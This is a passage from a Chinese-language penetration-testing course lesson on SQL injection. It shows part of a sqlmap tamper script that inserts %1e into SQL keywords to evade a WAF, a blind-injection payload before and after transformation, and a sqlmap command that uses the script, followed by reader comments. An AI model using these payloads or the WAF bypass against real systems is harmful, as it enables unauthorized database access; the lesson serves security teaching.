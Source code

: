 &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; index = randomRange(<span class="hljs-number">1</span>, len(word) - <span class="hljs-number">1</span>)
&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; str = word[:index] + <span class="hljs-string">"%1e"</span> + word[index:]
&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; result = result.replace(word, str)
    <span class="hljs-keyword">return</span> result
</code></pre>
<p data-nodeid="53549">上述代码会判断输入的字符串是否有 SQL 关键词，如果有就随机在关键词中间插入%1e。</p>
<p data-nodeid="53550">假设原注入语句为：</p>
<pre class="lang-sql" data-nodeid="53551"><code data-language="sql">and ascii(substr((<span class="hljs-keyword">select</span> <span class="hljs-keyword">database</span>()),<span class="hljs-number">1</span>,<span class="hljs-number">1</span>))&gt;<span class="hljs-number">64</span>
</code></pre>
<p data-nodeid="53552">经转换后变成：</p>
<pre class="lang-sql" data-nodeid="53553"><code data-language="sql">a%1end a%1escii(sub%1estr((s%1eelect da%1etabase()),1,1))&gt;64
</code></pre>
<p data-nodeid="53554">最后调用 sqlmap 执行即可：</p>
<pre class="lang-shell" data-nodeid="53555"><code data-language="shell">./sqlmap.py -u url --tamper=bypasswaf.py --dbs
</code></pre>
<p data-nodeid="53556">到这里咱们就完成请求参数的修改了，这是用来绕过 WAF 是非常有效的手段。</p>
<h3 data-nodeid="53557">总结</h3>
<p data-nodeid="53558">这一讲我主要介绍了二次注入产生的原理，以及如何利用 SQL 注入漏洞，包括手工注入及使用 sqlmap 实现自动化漏洞。</p>
<p data-nodeid="53559">在个人渗透测试经历中，如果要挖掘和利用 SQL 注入漏洞，那么手工注入的技能是必备的，毕竟 sqlmap 也有扫不出来的情况。一旦能够手工注入成功，哪怕 sqlmap 检测不出来，我们也可以借助 tamper 脚本构造可成功注入的语句，然后再利用 sqlmap 与 tamper 脚本完成自动化的利用。无论如何，sqlmap 一直是 SQL 注入领域最优秀的工具，没有之一，非常值得学习和研究。</p>
<p data-nodeid="53560">那我们如何利用 SQL 注入写入后门，进而拿到服务器的 shell 权限，比如 sqlmap 中的--os-shell 参数使用，还有 MySQL 新特性 secure_file_priv 对读写文件的影响呢？欢迎在留言区分享你的看法。</p>
<p data-nodeid="53561">下一讲，我将带你了解如何检测和防御 SQL 注入，到时见~</p>
<p data-nodeid="53846" class=""><img src="https://s0.lgstatic.com/i/image/M00/8C/B3/CgqCHl_y786AUgVhAAUYGxCiFok593.png" alt="Lark20210104-183641.png" data-nodeid="53849"></p>

---

### 精选评论

##### **安：
> 精辟啊

##### *贤：
> 学习了

##### **7871：
> 学习了，使用工具前先要会手动注入了解原理后再使用工具会更得心应手，我看了很多靶场都是很多年前了，一直搞不动为什么没有新的靶场，现在体会到了先把这些靶场都通关了在谈其他的，谢谢老师

